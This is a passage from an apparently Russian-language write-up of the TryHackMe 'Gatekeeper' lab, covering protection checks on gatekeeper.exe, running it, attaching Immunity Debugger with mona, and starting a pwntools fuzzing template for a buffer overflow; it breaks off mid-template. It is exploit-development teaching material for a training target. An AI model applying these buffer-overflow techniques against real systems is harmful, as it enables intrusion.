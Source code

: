 - `arch     x86`
- `nx       false`
  - стек и куча исполняемые
- `canary   true`
  - убью при перезаписи EIP
- `stripped false`
  - возможно стоит смотреть в ghidra

- `ASLR (Address Space Layout Randomization)`
  - `pic      false` — код не является позиционно-независимым (Position Independent Code).
  - `relocs   true`  — присутствуют записи перемещения (relocation records).  
Для исполняемого файла (exe) это означает, что `ASLR` может быть поддержан, если операционная система включает эту функцию.  
Исполняемые файлы могут быть загружены по случайному адресу, даже если они не являются `PIC`, при наличии записей перемещения.
Но, скорее всего, т.к. указана совместимость с `MS Windows 6.00`, адреса будут постоянными и загружаться по `baddr    0x8040000`


Сходу запустить на `Windows` машине не получилось  
<img width="1916" height="1016" alt="image" src="https://github.com/user-attachments/assets/a4ff2ae9-9385-4ef0-8d72-2eedea0b3735" />  

Загружаю `vc_redist.x86.exe` с  
`https://www.microsoft.com/ru-ru/download/details.aspx?id=53840`

И теперь всё работает  
```bash
┌──(kali㉿0x2d-pentest)-[~/…/TryHackMe/Win Medium - Gatekeeper/exploits/Share]
└─$ nc 192.168.56.124 31337
--pentest
Hello --pentest!!!
```
<img width="673" height="340" alt="image" src="https://github.com/user-attachments/assets/6bc2dc5d-ddbd-46b9-8e3a-38fcfd9bfb77" />  

Запускаю `gatekeeper.exe` в `immunity debugger` и устанавливаю рабочую директорию  
```python
!mona config -set workingfolder c:\mona\%p
```
<img width="1917" height="1016" alt="image" src="https://github.com/user-attachments/assets/a9c271ec-db53-4427-ace5-0c5f47e295d7" />  

Создаю шаблон для проверки на переполение буфера
```bash
┌──(.venv)─(kali㉿0x2d-pentest)-[~/Labs/TryHackMe/Win Medium - Gatekeeper/exploits]
└─$ pwn template ./Share/gatekeeper.exe --quiet --host 192.168.56.124 --port 31337 > x.py
[*] Automatically detecting challenge binaries...
```

Корректирую шаблон и запускаю фаззер
```python
rom pwn import *

context.update(arch='i386')
exe = './Share/gatekeeper.exe'

host = args.HOST or '192.168.56.124'
port = int(args.PORT or 31337)

def start_local(argv=[], *a, **kw):
    '''Execute the target binary locally'''
    if args.GDB:
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.EDB:
        return process(['edb', '--run', exe] + argv, *a, **kw)
    else:
        return process([exe] + argv, *a, **kw)

def start_remote(argv=[], *a, **kw):
```